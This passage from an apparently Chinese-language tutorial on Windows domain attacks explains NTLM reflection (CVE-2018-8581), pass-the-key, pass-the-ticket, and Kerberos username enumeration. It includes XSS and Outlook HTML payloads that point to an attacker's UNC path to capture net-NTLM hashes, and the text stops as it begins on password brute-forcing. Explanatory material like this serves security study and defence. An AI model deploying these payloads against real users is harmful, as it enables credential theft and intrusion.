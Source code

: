 **反射的应用**

在工作组环境里面工作组中的机器之间相互没有信任关系每台机器的账号密码只是保存在自己的 SAM 文件中此时将中继到其他机器就没有任何意义了。

最能体现其特点的就是 CVE-2018-8581。通过抓到管理员 hash 并将其反射回自己从而实现短暂的权限提升。

**d、NTLM 请求发起**

既然是中间人攻击那么关键问题就在于如何才能发起请求。发起请求的方法有很多但使用条件都较为苛刻就不过多赘述这里只介绍可行性最大的一种。

**XSS & Outlook**

利用 xss 构造

```bash
<script src="\\ipaddress\xss">
```

这种情况适用于 IE 和 edge 其他浏览器不允许从 http 协议跨到 file 协议。

如果使用 http 请求来发起认证在默认情况下需要手动输入用户信息进行验证除非该站点的域名位于企业内部网或存在于可信站点列表中。否则都会跳出认证框来让操作者再输入一次。

除非在安全设置中将“用户身份验证”选项中“登录”设置为自动使用当前用户名和密码登录才能拿到用户的 net-ntlm hash。

发送邮件是支持 html 的并且 outlook 中的图片加载路径可以是 UNC。同 XSS 将图片地址构造为攻击 payload。

```bash
<img src="\\ipaddress\outlook">
```

当收件人打开 outlook 查看邮件的时候就可以收到 net-ntlm hash。

## 五、kerberos 协议攻击思路

### 1, pass the key

pass the key 简称 PTK 与 hash 传递类似都是由于认证过程中不需要明文密码因此可以直接使用用 hash 代替明文密码。

由于在进行认证的时候是用用户 hash 加密时间戳即使在使用密码进行登录的情况下也是先把密码加密成 hash 再进行认证。因此在只有用户 hash 没有明文密码的情况下也是可以进行认证的。不管是 rubeus 还是 impacket 里面的相关脚本都是支持直接使用 hash 进行认证。

### 2, pass the ticket

Kerbreos 除了第一步 AS-ERQ 是使用时间戳加密用户 hash 验证之外其他的步骤的验证都是通过票据这个票据 可以是 TGT 票据或者 TGS 票据。因为票据里面的内容主要是 sessionkey 和 ticket 使用服务 hash 加密的服务包括 krbtgt 拿到票据之后。就可以用这个票据来作为下阶段的验证了。

### 3、枚举爆破

**a、用户名枚举**

由于 AS-REP 返回的 cname 字段在用户名正确和不正确存在或不存在时回显结果不一样。

在用户名正确密码错误的时候回显结果为 KDC\_ERR\_PREAUTH\_FAILED 在用户名不存在时回显结果为 KDE\_ERR\_C\_PRINCIPAL\_UNKNOWN

通过这个比较就可以对 cname 的值进行用户名枚举。在域内没有域账号的情况下进行用户名枚举在有账号的情况的下通过 LDAP 查询就行。如果有域内机器的 system 权限那那台机器也是个域账户账户名是机器名 $。

使用 nmap 脚本 **krb5-enum-users** 可以枚举域内用户。

**b、密码爆破**
